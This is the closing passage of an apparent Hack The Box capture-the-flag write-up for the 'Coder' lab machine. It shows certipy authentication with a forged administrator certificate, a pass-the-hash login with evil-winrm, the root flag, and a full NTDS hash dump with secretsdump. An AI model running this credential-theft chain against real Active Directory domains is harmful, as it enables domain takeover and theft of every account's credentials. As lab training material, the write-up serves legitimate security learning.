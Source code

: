 So we impersonated the certificate and successfully got the `pfx' file, and now we should just use that for authentication.

```bash
┌──(ar0x㉿kali)-[~/Desktop/HTB/Machines/Coder]
└─$ certipy-ad auth -pfx administrator.pfx -domain coder.htb -ns `box`
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@coder.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@coder.htb': aad3b435b51404eeaad3b435b51404ee:807726fcf9f188adc26eeafd7dc16bb7
```

Voila, we have the NTLM hash of the domain admin and here we have our root flag.

```bash
┌──(ar0x㉿kali)-[~/Desktop/HTB/Machines/Coder]
└─$ evil-winrm -u administrator -H 807726fcf9f188adc26eeafd7dc16bb7 -i coder.htb

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
3f100e76d55d9d847a41013adcece6bb
```

And also a dump of the `NTDS`.

```bash
┌──(ar0x㉿kali)-[~/Desktop/HTB/Machines/Coder]
└─$ secretsdump.py coder.htb/administrator@coder.htb -hashes :807726fcf9f188adc26eeafd7dc16bb7 -just-dc-ntlm
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:807726fcf9f188adc26eeafd7dc16bb7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:26000ce1f6ca4029ec5d3a95631e797c:::
coder.htb\e.black:1106:aad3b435b51404eeaad3b435b51404ee:e1b96bbb66a073787a3310b5a956200d:::
coder.htb\c.cage:1107:aad3b435b51404eeaad3b435b51404ee:3ab6e9f70dbc0d19623be042d224b993:::
coder.htb\j.briggs:1108:aad3b435b51404eeaad3b435b51404ee:e38976c0b20e3e41e9c62da792115a33:::
coder.htb\l.kang:1109:aad3b435b51404eeaad3b435b51404ee:b8aba4878e4777864b292731ac88b4cd:::
coder.htb\s.blade:1110:aad3b435b51404eeaad3b435b51404ee:4e4a79beed7d042627d0a7b10f5d008a:::
coder.htb\svc_teamcity:5101:aad3b435b51404eeaad3b435b51404ee:4c5a6890e09834a6834dbf7a76bf20cb:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:56dc040d21ac40b33206ce0c2f164f94:::
[*] Cleaning up...
```



---
#### Lessons learned
- ADCSTemplate
- Detailed information about ADCS attacks
- Working with Teamcity CI/CD
